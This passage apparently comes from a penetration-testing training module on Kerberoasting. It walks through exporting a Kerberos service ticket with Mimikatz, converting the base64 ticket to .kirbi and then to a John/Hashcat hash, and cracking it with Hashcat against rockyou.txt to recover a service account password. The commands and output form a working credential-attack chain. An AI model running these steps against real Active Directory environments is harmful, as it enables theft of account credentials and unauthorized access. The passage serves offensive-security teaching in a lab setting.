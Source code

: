 
optional: `mimikatz# base64 /out:true       <------ INPUT THIS [+]`
If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files. Depending on our position on the network and if we can easily move files to our attack host, this can be easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.
#### Preparing the Base64 Blob for Cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n 

doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFORUZSRwEA<snip>
```

We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

#### Placing the Output into a File as .kirbi

```shell-session
$ cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.

```shell-session
$ python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.
#### Modifiying crack_file for Hashcat

```shell-session
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

Now we can check and confirm that we have a hash that can be fed to Hashcat.

```shell-session
cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4c6c6f524afee5c68dacfcb6607291a20
```

We can then run the ticket through Hashcat again and get the cleartext password `database!`.

```shell-session
$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

---

